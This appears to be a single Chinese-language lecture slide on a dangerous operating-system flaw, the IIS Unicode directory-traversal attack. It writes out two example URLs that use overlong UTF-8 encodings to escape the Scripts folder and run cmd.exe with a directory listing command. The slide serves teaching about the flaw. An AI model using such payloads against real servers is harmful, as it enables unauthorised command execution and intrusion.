

# 操作系统级最危险的缺陷
2．Unicode
这样的一个URL示例： http://192.168.0.27/Scripts/..%c0%af../winnt/system32/cmd.exe?/c+dir+d:\
如果使用的是三字节UTF-8编码，也可以进行相同的攻击。下面的URL等价于上面的URL:
 http://192.168.0.27/Scripts/..%e0%c0%af../winnt/system32/cmd.exe?/c+dir+d:\

61